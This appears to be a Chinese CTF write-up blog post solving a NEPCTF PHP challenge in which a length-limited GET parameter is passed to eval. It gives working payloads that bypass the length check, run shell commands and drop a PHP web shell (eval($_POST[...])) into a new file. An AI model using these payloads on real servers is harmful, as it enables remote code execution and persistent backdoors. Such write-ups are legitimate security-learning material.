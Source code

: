 ```yaml
---
title: "2021 WP汇总"
date: 2021-05-17T20:24:32+08:00
toc : on
---
```


## 0x01 NEPCTF

周末比较忙，做了两道题。

### little_trick
```php
<?php
    error_reporting(0);
    highlight_file(__FILE__);
    $nep = $_GET['nep'];
    $len = $_GET['len'];
    if(intval($len)<8 && strlen($nep)<13){
        eval(substr($nep,0,$len));
    }else{
        die('too long!');
    }
?>
```
关于`len`这个点还挺好说的，**-1**就绕了，那么题目就变成了**限制长度为12**的命令执行。方法还挺多的。
#### solution 1
hitcon之前做了**限制长度4或5的命令执行**,4和5都可以了，那12自然不在话下，这里就不过多阐述了。
#### solution 2
事实上这题没那么麻烦，因为我们可控制字符还是比较长的，我们先测试一下:
```demo
?nep=`ls>z`;&len=7
```
访问一下`z`我们发现了
```test
index.php
nep.php
z
```
很明显flag就在`nep.php`里，那只需
```
>cat 
*>z
```
再访问`z`即可。
#### solution3
```demo
?nep=`$_GET[a]`;1&len=-1&a=echo "<?php eval(\$_POST[theoyu]);">theoyu.php
```
#### solution4 
这个是看一位老哥的wp时发现的，确实巧妙。
首先鉴于php的弱类型，`intval`会把字符串数字后给截断，导致比如`7;agawg`识别为7，然后里用?nep=`$len`达到内联执行的效果。
```demo
?nep=`$len`;&len=7;echo "<?php @eval(\$_POST[theoyu])?>" > theoyu.php
```
### 梦里花开牡丹亭
>考察php原生类的利用
